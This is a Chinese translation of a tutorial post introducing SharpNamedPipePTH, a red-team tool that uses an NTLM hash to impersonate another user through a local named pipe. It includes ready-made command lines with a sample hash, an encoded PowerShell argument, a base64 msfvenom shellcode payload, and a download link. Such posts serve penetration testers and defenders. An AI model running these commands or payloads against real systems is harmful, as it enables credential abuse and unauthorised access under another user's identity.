



# SharpNamedPipePTH:将哈希传递给命名管道以进行令牌模拟

> 原文：<https://kalilinuxtutorials.com/sharpnamedpipepth/>

SharpNamedPipePTH 是一个 C#工具，使用传递散列在本地命名管道上进行身份验证，用于用户模拟。您需要本地管理员或个人权限才能使用它。有一篇博文做了解释:

https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/

它主要基于 Sharp-SMBExec 项目的代码。

我在过去面临过某些攻击性安全项目的情况，我已经有了一个用户账户的 NTLM 散列，并且需要在当前被入侵的系统上为该用户提供一个 shell 但是这对于当前的公共工具来说是不可能的。想象一下另外两个情况——NTLM 散列无法被破解*和*没有受害用户在其中执行外壳代码或迁移到该进程的进程。对你们中的一些人来说，这听起来像是一个荒谬的边缘案例。我还是经历了很多次。不仅仅是在一个项目中，我花了很多时间在特定的情况下寻找合适的工具/技术。

我对工具/技术的个人目标是:

*   全功能外壳或 C2 连接作为受害者用户帐户
*   它还必须能够模拟`**low privileged**`账户——根据项目目标，可能需要特定用户(如 CEO、人力资源账户、SAP 管理员或其他人)访问系统
*   该工具可用作 C2 模块

不幸的是，被模拟的用户*不允许网络认证*，因为新进程正在使用一个受限的模拟令牌。因此，您只能对另一个用户的本地操作使用这种技术。

有两种方法可以使用 SharpNamedPipePTH。您可以执行二进制文件(带或不带参数):

`**SharpNamedPipePTH.exe username:testing hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:C:\windows\system32\cmd.exe**`

`**SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:"C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" arguments:"-nop -w 1 -sta -enc bgBvAHQAZQBwAGEAZAAuAGUAeABlAAoA"**`

或者您可以作为另一个用户执行外壳代码:

`**SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 shellcode:/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY21kLmV4ZQA=**`

也就是`**msfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=threadmsfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=thread | base64 -w0**`。

我对 shellcode 的执行还不满意，因为它目前正在生成 notepad 作为模拟用户，并通过 D/Invoke createremotethead Syscall 将 shellcode 注入到新进程中。我仍然在寻找在后台产生一个进程或执行外壳代码的可能性，而不需要目标用户的进程来分配内存。

[**Download**](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH)